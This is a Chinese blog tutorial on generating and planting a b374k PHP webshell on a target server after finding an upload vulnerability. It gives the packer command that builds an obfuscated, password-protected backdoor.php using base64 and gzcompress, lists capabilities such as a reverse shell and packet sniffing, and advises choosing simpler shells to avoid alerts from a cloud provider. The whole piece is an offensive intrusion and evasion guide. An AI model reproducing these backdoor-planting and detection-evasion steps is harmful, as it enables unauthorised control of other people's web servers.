 ```yaml
---
title: PHP后门生成工具b374k的使用方法
name: php-b374k
date: 2016-5-20
tags: [php,后门生成,b374k]
categories: [Blackhat]
---
```


* 目录
{:toc}

---

# PHP后门生成工具b374k的使用方法

## 1. 背景

尽管现在互联网技术日新月异，但php类型的网站仍然占比较多（php建站工具丰富），与之而来的是php站点各种漏洞，本篇文章将会描述当你获取一个上传漏洞时，应该选择哪种**php webshell**进行控制，这里介绍**b374k**的php后门生成工具。

其实在kali2.0的"**/usr/share/webshells/php**"系统目录中也有几个可用的shell，另外你也可以使用**weevely**。

## 2. 特性

* 文件管理（查看、编辑、删除、重命名、上传、下载、归档等等）
* 搜索文件、目录、文件内容（支持正则表达式）
* 运行系统命令
* 脚本运行（perl、php、python、ruby等等）
* 反向连接的shell（可以使用metasploit监听）
* 简单的数据包嗅探
* 简单的数据库连接与解释器
* 任务进程列表
* 邮件服务（可发送归档附件）

由上面可知，**b374k**的确很强大，提供了丰富的功能、友好的界面操作方式。但优点越多的同时缺点暴露的就越多，**b374k**由于涉及很多系统函数，使用面广，所以很容易被站点所在的系统发现并查杀。所以往往越简单的shell越不容易被发现，例如开头所说的kali自带的几个webshell。

我曾经在阿里云服务器中测试过，当上传**b374k**的后门shell时，阿里云系统几秒钟就发现并进行的告警，当我使用kali2.0自带的**qsd-php-backdoor.php**时却没有任何告警信息，从这点可以看出越简单越好，其实仅仅提供一个简单的shell就可以做很多事情。

## 3. 使用

**b374k**作为生成shell后门的工具，提供了两种生成方式，一种**给予界面**的方式，一种是**命令行**的方式。给予界面的需要web服务器的支持，命令方式的需要php解释器的支持，下面是这两种方式的使用方法。

### 3.1 给予界面的

将克隆的**b374k**的目录放置到目标服务器中，通过域名访问界面生成地址，如：[http://vinny.cc/b374k](http://vinny.cc/b374k)，配置好相应参数，点击run按钮即可进入webshell控制台，如下：

![b374k界面生成](http://ohdpyqlwy.bkt.clouddn.com/b374k.png)

其实这种生成方式并不靠谱，需要把整个**b374k**的程序放到目标机器上，很容易被查杀和利用，并不推荐使用这种方式进行webshell的使用。

![b374k web shell](http://ohdpyqlwy.bkt.clouddn.com/b374kshell.png)

### 3.2 给予命令行生成的

```shell
$ php -f index.php
b374k shell packer 0.4

options :
        -o filename                             保存的后门文件
        -p password                             访问的密码
        -t theme                                使用哪种主题
        -m modules                              使用的模块
        -s                                      去除注释和空白区域
        -b                                      是否用base64编码
        -z [no|gzdeflate|gzencode|gzcompress]   压缩方式
        -c [0-9]                                压缩级别
        -l                                      列出可用的模块
        -k                                      列出可用的主题

# -o 生成backdoor.php文件后门
# -p 后门的访问密码是123321
# -s 去除注释和空白区域
# -b 启用base64压缩
# -z 使用gzcompress的压缩方式
# -c 压缩级别为最高的9
php -f index.php -- -o backdoor.php -p 123321 -s -b -z gzcompress -c 9
```

生成好之后将**backdoor.php**上传至目标服务器中，使用密码**123321**进行访问即可看见**b374k**的界面操作。